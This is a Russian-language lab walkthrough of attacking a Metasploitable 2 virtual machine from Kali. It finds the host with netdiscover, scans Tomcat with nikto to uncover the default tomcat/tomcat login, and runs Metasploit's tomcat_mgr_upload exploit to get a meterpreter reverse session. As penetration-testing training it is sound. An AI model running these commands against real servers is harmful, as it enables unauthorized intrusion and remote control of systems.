



Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Начинаем атаку на удаленную машину Metasploitable 2.
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале:
nikto -h 10.0.2.3:8180

Мы нашли логин/пароль - tomcat/tomcat.
Запускаем метсплоит консоль:
msfconsole
Даем команду и подставляем найденный логин/пароль:
msf > search tomcat
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.0.2.3
msf exploit(multi/http/tomcat_mgr_upload) > set RPORT 8180
msf exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set HttpPassword tomcat
msf exploit(multi/http/tomcat_mgr_upload) > exploit
В некоторых случаях еще дополнительно надо укзать LHOST:
set LHOST 10.0.2.4
И получили сессию meterpreter (скриншот ниже):

Даем команду ifconfig что бы узнать точно на какой машине мы находимся (скриншот ниже):

Вывод команды подтверждает мы на удаленной Metasploitable 2 IP 10.0.2.3.
При помощи команды exit выходим из meterpreter и msfconsole.